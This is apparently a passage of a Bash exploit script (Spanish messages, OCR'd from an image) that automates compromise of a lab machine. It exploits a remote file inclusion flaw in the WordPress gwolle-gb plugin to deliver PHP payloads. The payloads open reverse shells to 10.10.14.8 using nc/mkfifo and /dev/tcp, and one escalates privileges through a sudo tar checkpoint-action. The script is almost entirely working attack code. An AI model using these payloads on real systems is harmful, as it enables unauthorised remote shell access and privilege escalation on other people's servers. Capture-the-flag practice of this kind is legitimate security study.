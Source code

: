 ```bash
    exit 1
}

function makeWWWDataFile(){
cat << EOF > wp-load.php
<?php
    system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.8 443 >/tmp/f");
?>
EOF
}

function makeOnumaFile(){
cat << EOF > wp-load.php
<?php
    system("echo '#!/bin/bash\n\nbash -i >& /dev/tcp/10.10.14.8/443 0>&1' > /dev/shm/s4vishell.sh");
    system("sudo -u onuma tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=\"bash /dev/shm/s4vishell.sh\"");
?>
EOF
}

function makeRequest(){
    if [ "$(echo $username)" == "www-data" ]; then
        makeWWWDataFile
        python3 -m http.server 80 &>/dev/null &
        curl -s -X GET "http://10.10.10.88/webservices/wp/wp-content/plugins/gwolle-gb/frontend/captcha/ajaxresponse.php?abspath=http://10.10.14.8/"
        rm wp-load.php
        kill -9 $(lsof -i:80 | grep "python" | awk '{print $2}') &>/dev/null
    elif [ "$(echo $username)" == "onuma" ]; then
        makeOnumaFile
        python3 -m http.server 80 &>/dev/null &
        curl -s -X GET "http://10.10.10.88/webservices/wp/wp-content/plugins/gwolle-gb/frontend/captcha/ajaxresponse.php?abspath=http://10.10.14.8/"
        rm wp-load.php
        kill -9 $(lsof -i:80 | grep "python" | awk '{print $2}') &>/dev/null
    else
        echo -e "\n[!] El usuario es invÃ¡lido\n"
        exit 1
    fi
}

declare -i parameter_counter=0; while getopts ":u:h:" arg; do
    case $arg in
        u) username=$OPTARG; let parameter_counter+=1;;
        h) helpPanel;;
    esac
done

if [ $parameter_counter -eq 0 ]; then
    helpPanel
else
    makeRequest
fi
```
